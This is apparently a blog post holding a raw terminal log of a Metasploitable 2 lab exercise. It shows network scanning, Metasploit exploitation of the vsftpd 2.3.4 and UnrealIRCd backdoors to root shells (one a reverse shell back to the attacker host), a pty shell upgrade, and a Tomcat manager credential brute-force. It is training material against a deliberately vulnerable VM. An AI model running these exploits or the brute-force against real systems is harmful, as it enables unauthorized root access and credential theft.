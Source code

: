 ```yaml
---
layout: post
title: Metasploitable 2
slug: metasploitable-2
name: Metasploitable 2
---
```


{% highlight bash %}
netdiscover -r 192.168.171.0/24
Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  Unknown vendor
192.168.171.131 00:0c:29:b4:9c:18      1      60  Unknown vendor
192.168.171.254 00:50:56:e4:b9:6d      1      60  Unknown vendor

nmap -sV 192.168.171.131
Starting Nmap 7.60 ( https://nmap.org ) at 2017-09-29 12:31 MDT
Nmap scan report for 192.168.171.131
Host is up (0.0020s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell       Netkit rshd
1099/tcp open  rmiregistry GNU Classpath grmiregistry
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1

MAC Address: 00:0C:29:B4:9C:18 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.35 seconds

msf > search vsftpd

msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.171.131
RHOST => 192.168.171.131

msf exploit(vsftpd_234_backdoor) > exploit

[*] 192.168.171.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.171.131:21 - USER: 331 Please specify the password.
[+] 192.168.171.131:21 - Backdoor service has been spawned, handling...
[+] 192.168.171.131:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.171.129:44347 -> 192.168.171.131:6200) at 2017-09-29 12:44:57 -0600

export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
root@metasploitable:/# ls
ls
bin    dev   initrd      lost+found  nohup.out  root  sys  var
boot   etc   initrd.img  media       opt        sbin  tmp  vmlinuz
cdrom  home  lib         mnt         proc       srv   usr

export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"

msf auxiliary(telnet_login) > search UnrealIRCd

Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution


msf auxiliary(telnet_login) > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.171.131
RHOST => 192.168.171.131
msf exploit(unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 192.168.171.129:4444
[*] 192.168.171.131:6667 - Connected to 192.168.171.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.171.131:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo AVQRnKzJCCVAFI7q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "AVQRnKzJCCVAFI7q\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.171.129:4444 -> 192.168.171.131:54970) at 2017-09-29 13:18:18 -0600

export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
root@metasploitable:/etc/unreal# ls
ls
Donation               badwords.quit.conf  ircd.log   spamfilter.conf
LICENSE                curl-ca-bundle.crt  ircd.pid   tmp
aliases                dccallow.conf       ircd.tune  unreal
badwords.channel.conf  doc                 modules    unrealircd.conf
badwords.message.conf  help.conf           networks
root@metasploitable:/etc/unreal# pwd

msf auxiliary(tomcat_enum) > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > show options

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target address range or CIDR identifier
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

msf auxiliary(tomcat_mgr_login) > set RHOSTS 192.168.171.131
RHOSTS => 192.168.171.131
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180
msf auxiliary(tomcat_mgr_login) > run
[+] 192.168.171.131:8180 - Login Successful: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

{% endhighlight %}
